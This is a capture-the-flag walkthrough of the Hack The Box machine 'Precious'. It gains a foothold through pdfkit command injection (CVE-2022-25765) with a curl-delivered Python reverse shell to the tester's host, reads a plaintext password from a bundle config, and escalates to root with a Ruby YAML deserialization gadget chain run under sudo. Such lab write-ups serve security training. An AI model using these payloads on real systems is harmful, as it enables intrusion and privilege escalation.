




<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.189 precious.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is redirecting to hostname `precious.htb`


# Foothold

## pdfkit CVE-2022-25765

HTTP Headers are leaking server version details
```bash
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15 
```

If we look into the metadata of html converted pdf file,



It contains the utility detail that used to generate pdf file -> `pdfkit v0.8.6` 

* It is vulnerable for CVE-2022-25765 -> https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Payload -> `http://%2520%60+<URL-ENCODED-COMMAND>+%60`

For some reason, bash reverse shell is not working but ruby, perl or python reverse shell are working, generated from -> https://www.revshells.com/

```bash
curl -X POST \
    --data-binary $'url=http://%2520%60+python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.54%22%2C4141%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22bash%22%29%27+%60' \
    $'http://precious.htb/'
```



# Privesc

Got shell as "ruby" user.

There are 2 users on the box
```bash
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

Found user "henry" creds in `/home/ruby/.bundle` config file
```bash
(remote) ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

**Creds:** `henry:Q3c1AqGHtoI0aXAYFH`

And user "henry" can run `/opt/update_dependencies.rb` on `/usr/bin/ruby` with sudo.
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

## Ruby YAML deserialization

`/opt/update_dependencies.rb` script is loading "dependencies.yml" file.
```rb
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

This Ruby code is designed to compare installed dependencies with those specified in the "dependencies.yml" file.

The method `list_from_file` reads the dependencies listed in the "dependencies.yml" file using the `YAML.load` method, which converts the YAML data into a Ruby data structure. The method `list_local_gems` uses the `Gem::Specification` method to get a list of the installed gems, which are sorted by name and version number.

The `gems_file` variable is assigned the list of dependencies from the "dependencies.yml" file, and `gems_local` variable is assigned the list of locally installed gems. Then, the code compares the names and versions of each gem listed in the "dependencies.yml" file with the locally installed gems.

For each gem listed in "dependencies.yml", the code loops through each locally installed gem and checks if the name matches. If there is a match, the code checks if the installed version is different from the version listed in the "dependencies.yml" file. If there is a difference, the code outputs a message stating that the installed version differs from the one specified in the file. If there is no difference, the code outputs a message stating that the installed version is equal to the one specified in the file.

The `update_gems()` method is left empty.

And there is deserialization vulnerability in ruby YAML dep -> https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/
```yml
cat > dependencies.yml<<EOF
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO &1
      io: !ruby/object:Gem::Package::TarReader::Entry &1
        read: 0
        header: "abc"
      debug_output: !ruby/object:Net::WriteAdapter &1
        socket: !ruby/object:Gem::RequestSet &1
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module "Kernel"
            method_id: :system
          git_set: chmod +s /bin/bash
        method_id: :resolve
EOF
```

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

